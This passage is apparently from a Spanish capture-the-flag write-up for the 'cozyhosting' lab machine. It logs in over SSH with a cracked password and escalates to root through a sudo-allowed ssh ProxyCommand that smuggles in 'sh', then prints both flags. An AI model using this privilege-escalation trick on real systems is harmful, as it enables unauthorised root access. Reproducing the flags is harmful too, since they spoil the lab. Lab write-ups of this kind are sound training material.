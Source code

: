 Y, después de mucho rato pensando ( min) nos desencripta la contraseña ***manchesterunited***.

Como la flag se encuentra en /home bajo el usuario ***josh***, vamos a intentar conectarnos por ssh a dicho usuario.

```
ssh josh@10.10.11.230
	#contraseña: manchesterunited
```

En /home/josh encuentro la flag user.txt:
**e9794329d7182949ddeb933cc7d95aa8 
# Escalada de privilegios

Haciendo un "sudo -l" observo:
```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

Con permisos:
```
josh@cozyhosting:~$ ls -l /usr/bin/ssh
-rwxr-xr-x 1 root root 846888 Jul 19  2023 /usr/bin/ssh
```

En GTFO bins encuentro:
https://gtfobins.github.io/gtfobins/ssh/#sudo

Y ejecuto:
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Y adquiero root. 
En /root encuentro la root.txt:
***2d80bb8aa5a2feee1d93f7f958193d4c





